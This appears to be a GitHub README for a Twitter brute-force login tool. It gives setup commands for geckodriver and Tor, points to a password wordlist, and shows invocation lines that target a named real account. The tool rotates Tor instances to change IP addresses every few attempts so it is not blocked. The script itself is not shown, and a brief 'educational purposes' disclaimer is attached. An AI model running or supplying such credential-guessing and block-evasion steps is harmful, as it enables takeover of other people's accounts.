 # TBA
Twitter brute force attack (for educational purposes)
This file covers multithreaded attacks on multiple instances and switching IP Address after every 2-4 attemps from one instance to prevent getting IP-blocked.

# How to
1. Install Geckodriver in path (Ubuntu 18.04):
```bash
export GV=v0.26.0
wget "https://github.com/mozilla/geckodriver/releases/download/$GV/geckodriver-$GV-linux64.tar.gz"
tar xvzf geckodriver-$GV-linux64.tar.gz
chmod +x geckodriver<br />
sudo cp geckodriver /usr/local/bin/
```
2. Download Tor binaries (Version 9.5 or newer on Ubuntu 18.04):
```bash
wget https://www.torproject.org/dist/torbrowser/9.5/tor-browser-linux64-9.5_en-US.tar.xz
tar -xf tor-browser-linux64-9.5_en-US.tar.xz
3. Install requirements:
```bash
pip install -r requirements.txt
```
4. Download suitable password list from [Github](https://github.com/danielmiessler/SecLists/tree/master/Passwords)
5. Start brute forcing using command line
```bash
python3 TBA.py <username> <path_to_password_list> <path_to_tor_binaries> -<amount_of_tor_instances_optional>
python3 TBA.py realDonaldTrump path/to/wlist.txt path/to/tor-browser_en-US -instances 15
```

# Disclaimer
Do not use this if you are not sure wether you're acting on legal grounds or not.
In general it is not allowed to log into accounts you don't own.
This was made for educational purposes.
